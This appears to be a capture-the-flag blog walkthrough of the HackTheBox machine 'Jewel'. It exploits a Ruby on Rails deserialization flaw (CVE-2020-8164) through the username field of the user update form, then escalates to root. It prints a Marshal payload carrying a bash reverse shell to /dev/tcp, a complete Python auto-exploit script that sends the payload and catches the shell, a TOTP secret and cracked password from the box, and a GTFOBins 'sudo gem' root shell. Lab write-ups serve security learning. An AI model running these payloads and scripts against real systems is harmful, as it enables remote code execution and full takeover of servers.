

Jewel was a good box from HackTheBox. It's Medium one. I learned a lot with the ruby on rails serialization, was a good practice.

The first shell is trough deserealization on ruby in an update user param. The root you can get with a sudo -l command with 2FA with Google Authenticator.

The auto script is on the post body. Hope you enjoy.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.211
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 8000

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.211 on the browser.


It seems to be a git page. It is a [gitweb](https://git-scm.com/docs/gitweb) page.

After looking for something interesting, we found a commit on a project with a snapshot


We download it and see that we will need to make a code analysis.

After download and extract it we see some hidden folders


### Code Analysis

So, let's start making some code analysis in it to see what we can explore

It has a `Gemfile`, so we can imagine that it's running Ruby On Rails.

We start looking for some vunls but did no find anyone. So we looked at the version of apps installed on the Gemfile


And we see that the version of `Rails` installed maybe vulnerable.

We found a exploit in [CVE-2020-8164](https://www.rapid7.com/db/vulnerabilities/ruby_on_rails-cve-2020-8164/)

Which defines the vulnerability as:

```
A deserialization of untrusted data vulnerability exists in rails < 5.2.4.3, rails < 6.0.3.1 which can allow an attacker to supply information can be inadvertently leaked fromStrong Parameters.
```

We start looking for PoCs or more explanation about how this vulnerability occurs.

We find some interesting sites. [HackerOne](https://hackerone.com/reports/413388), and this PoC on [GitHub](https://github.com/masahiro331/CVE-2020-8165).

The payload we found is this

pay.rb

```rb
require 'erb'
require 'uri'
require 'active_support'
require 'active_support/core_ext'

code = '`/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1"`'

erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1

payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)

puts URI.encode_www_form(payload: payload)
```

Now, we just need to find the place to put it.

The flaw can be spotted in "users_controller.rb" file on line number 37.


We need to find it on the webapp now.

## Port 8080

Now, to find the place to put our payload we start enum the port 8080


How we already now that we need to get the `user_controllers.rb` it get easier to exploit

We create a normal user on the server to see all it's funcionalities


We look at the vulnerable source code the following message

`Your account was updated successfully`


And after we found the upadate function on the website, we can trigger it


So, we just need to find the correct params to exploit it

```rb
@current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
```

Possibly it's on the Username param


So we built our exploit to ping us

```rb
require 'erb'
require 'uri'
require 'active_support'
require 'active_support/core_ext'

code = '`ping -c 5 10.10.14.20`'

erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1

payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)

puts URI.encode_www_form(payload: payload)
```

We create the payload


Go to the Update User tab on the menu, send the request to Burp and Repeater and change it


The next time we go to the home page, it was triggered


Now, let's get a reverse shell and automate it to the auto exploit python script

# Bill - Auto Shell

First, as always, we will use a python script to build our payload

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


jewel_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Ruby Deserealizaiton Exploit - Jewel HackTheBox
# Date: 16/09/21

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import os
from bs4 import BeautifulSoup
import urllib.parse
import json

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the payload
def createPayload(lhost,lport):
    print("[+] Let's mount the ruby payload !! [+]")
    payload = "require 'erb'\n"
    payload += "require 'uri'\n"
    payload +="require 'active_support'\n"
    payload +="require 'active_support/core_ext'\n"
    payload +="code = '`/bin/bash -c \"/bin/bash -i >& /dev/tcp/%s/%s 0>&1\"`'\n" %(lhost,lport)
    payload +="erb = ERB.allocate\n"
    payload +="erb.instance_variable_set :@src, code\n"
    payload +="erb.instance_variable_set :@filename, '1'\n"
    payload +="erb.instance_variable_set :@lineno, 1\n"
    payload +="payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)\n"
    payload +="puts URI.encode_www_form(payload: payload)"
    f = open("exploit.rb", "w")
    f.write(payload)
    f.close()
    print("[+] Let's execute the ruby script !! [+]")
    global pay_reverse
    pay_reverse = os.popen('ruby exploit.rb').read().strip()[+8:]
    
# Function to get the CSRF TOKEN
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    login_url = 'http://' + rhost + ':8080'
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("csrf-token")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[2]
    return csrf_token
    
# Function to get user ID profile
def getUserId(rhost):
    # Make csrfMagicToken global
    global userid
    # Make the request to get csrf token
    login_url = 'http://' + rhost + ':8080'
    userid_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = userid_page.text.find("users")
    # Get only the csrfMagicToken in it
    userid = userid_page.text[index:index+20].split('"')[0].split('/')[1]
    
# Function to create a user to be exploited on the server
def createUser(rhost):
    url = "http://%s:8080/users" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    getCSRFToken(rhost)
    data = {"utf8": "\xe2\x9c\x93", "authenticity_token": "%s" %csrf_token, "user[username]": "0x4rt3mis", "user[email]": "0x4rt3mis@email.com", "user[password]": "123456", "commit": "Create User"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    
# Function to login
def loginRequest(rhost):
    print("[+] Let's login !! [+]")
    url = "http://%s:8080/login" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    getCSRFToken(rhost)
    data = {"utf8": "\xe2\x9c\x93", "authenticity_token": "%s" %csrf_token, "session[email]": "0x4rt3mis@email.com", "session[password]": "123456", "commit": "Log in"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies, allow_redirects=True)
    print("[+] Logged in, let's procced !!!! [+]")
    
# Now let's login and send the payload
def sendPayload(rhost,lhost,lport):
    print("[+] Now, let's send the payload !!! [+]")
    # Let's get the userid to change it
    getUserId(rhost)
    # Let's change it and get the reverse shell
    csrf_rhost= "http://" + rhost + ":8080" + "/users/" + userid + "/edit"
    response = r.get(csrf_rhost, proxies=proxies, cookies=r.cookies)
    soup = BeautifulSoup(response.text, 'lxml')
    csrf_token_id = soup.select_one('meta[name="csrf-token"]')['content']
    # Now let's change it
    csrf_token_id_url = urllib.parse.quote(csrf_token_id, safe='')
    rhost = "http://" + rhost + ":8080" + "/users/" + userid
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data_pay = '_method=patch&authenticity_token=' + csrf_token_id_url + '&user%5Busername%5D=' + pay_reverse + '&commit=Update+User'
    r.post(rhost, headers=headers, cookies=r.cookies, data=data_pay, proxies=proxies)
    print("[+] Now, just trigger it!!!! [+]")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's create the payload
    createPayload(lhost,lport)
    # Let's create the user
    createUser(rhost)
    # Let's login
    loginRequest(rhost)
    # Now let's send the payload
    sendPayload(rhost,lhost,lport)
    # Trigger
    loginRequest(rhost)

if __name__ == '__main__':
    main()
```

Once we have an easy shell on this box. Let's continue our exploration.

# Bill --> Root

Let's start our hunt for root on this box.

Looking at home direcroty from bill we see a `.google_authenticator` file


We see that is a alphanumeric string


```
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```

Maybe we use it after. Let's continue enumerating

So, I ran [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)


And found nothing explorable

Look for `password` on the blog folder


Found one interesting file

And some password and users inside it


So, we access the psql

```sh
psql -h localhost -U rails_dev -d blog_development
```


So we get the users hash in it

```sql
select * from users;
```


We found another hash user in the file

`cat dump_2020-08-27.sql`


So, let's hash the tree hashes


```
john hashes.txt --wordlist=list.txt
```


We found one valid password `spongebob`

Now, if I try `sudo -l` it prompts a token


It seems to be done with the google authenticator we found earlier.

On my kali box I installed the [OATHTOOL](https://www.nongnu.org/oath-toolkit/man-oathtool.html) which simulates it for us.


Now we can trigger it

```sh
oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
```

It's important to see if the time of your box is the same from the jewel box to make sure it works

And we run that and get access to the `sudo -l`


Looking at [gtfobins](https://gtfobins.github.io/gtfobins/gem/#sudo) it's easy to become root

```sh
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

